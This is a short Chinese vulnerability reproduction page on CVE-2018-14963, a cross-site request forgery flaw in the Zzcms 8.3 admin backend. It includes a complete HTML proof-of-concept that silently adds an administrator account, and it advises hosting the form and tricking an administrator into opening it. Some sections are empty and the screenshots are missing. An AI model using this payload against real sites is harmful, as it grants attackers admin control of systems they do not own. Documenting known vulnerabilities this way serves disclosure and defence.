

# （CVE-2018-14963）Zzcms 8.3 csrf

> 原文：[http://book.iwonder.run/0day/Zzcms/CVE-2018-14963.html](http://book.iwonder.run/0day/Zzcms/CVE-2018-14963.html)

## 一、漏洞简介

## 二、漏洞影响

Zzcms 8.3

## 三、复现过程

csrf 漏洞，这个问题也是从上个版本就存在的问题，就是整个管理员后台的，所有表单都是没有设置 csrf 的 token 的，所以只要涉及到敏感操作的表单，都可以使用 csrf 来攻击，达成很多攻击利用。

这里的攻击是产生在了/admin/adminadd.php 的添加管理员操作，构造的表单如下：

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://0-sec.org:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html> 
```

构造好了 payload 以后，放到 vps 上，然后诱导管理员点击恶意链接，即可成功添加管理员。

未添加管理员之前：


点击链接之后：



## 参考链接

> [https://www.anquanke.com/post/id/156660](https://www.anquanke.com/post/id/156660)

